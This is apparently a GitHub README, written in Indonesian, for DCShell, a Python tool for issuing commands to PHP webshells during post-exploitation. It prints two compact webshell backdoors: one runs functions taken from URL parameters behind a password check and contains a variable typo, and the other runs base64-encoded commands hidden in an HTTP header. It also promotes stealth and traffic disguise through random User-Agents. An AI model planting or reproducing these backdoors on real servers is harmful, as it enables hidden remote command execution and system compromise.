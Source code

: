 ![image](https://github.com/user-attachments/assets/35e0f698-e91e-4aa7-acfb-31da09fcfcf8)

# 🛠️ DCShell v.1
DCShell adalah sebuah tools berbasis Python yang dirancang untuk mempermudah interaksi dengan webshell dalam skenario pengujian penetrasi (pentest). Tools ini menyediakan antarmuka berbasis terminal yang ramah pengguna serta mendukung dua mode eksekusi shell, yaitu:
- Rootkit Mode: Mengakses webshell yang dilindungi dengan password, di mana perintah dieksekusi melalui parameter URL.
  ```
  <?=$_GET[p]==_&&$_GET[f]($GET_[c]);
  ```
  
- Raptor Mode: Mengakses webshell yang menerima payload melalui header HTTP, di mana perintah dienkode dalam base64 dan disisipkan secara acak dalam header khusus.
  ```
  <?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
  ```

# 🎯 Tujuan Penggunaan
DCShell ditujukan untuk mempermudah eksekusi perintah sistem di server target melalui webshell secara stealthy, cepat, dan fleksibel. Cocok digunakan saat fase post-exploitation dalam pengujian keamanan aplikasi web, terutama ketika backdoor atau akses awal telah diperoleh.

# ⚙️ Fitur Unggulan
- 🔐 Dukungan password untuk webshell (mode Rootkit)
- 🧬 Payload base64 via header (mode Raptor)
- 🎛️ Pilihan fungsi PHP: system, passthru, shell_exec, dan exec
- 🎲 User-Agent acak otomatis untuk menyamarkan traffic
- 💻 Antarmuka interaktif dengan visualisasi tabel menggunakan rich
- 🚀 Loop perintah real-time seperti shell di terminal

# 💡 Usage
1. Pengguna memilih mode shell (Rootkit/Raptor).
   ![image](https://github.com/user-attachments/assets/20915e32-5c00-4bab-83ef-8bf9f0838a35)
3. Memasukkan URL shell dan informasi tambahan (seperti password).
   ![image](https://github.com/user-attachments/assets/04aa926f-9cfd-49d9-951f-3941691e551c)
5. Memilih metode eksekusi fungsi PHP.
6. Memasukkan perintah-perintah sistem untuk dieksekusi di server target.
7. Tools akan mengirim permintaan HTTP ke webshell dan menampilkan output di terminal.
8. Final
   ![image](https://github.com/user-attachments/assets/78668640-8523-4d1f-8291-28cedee69adc)


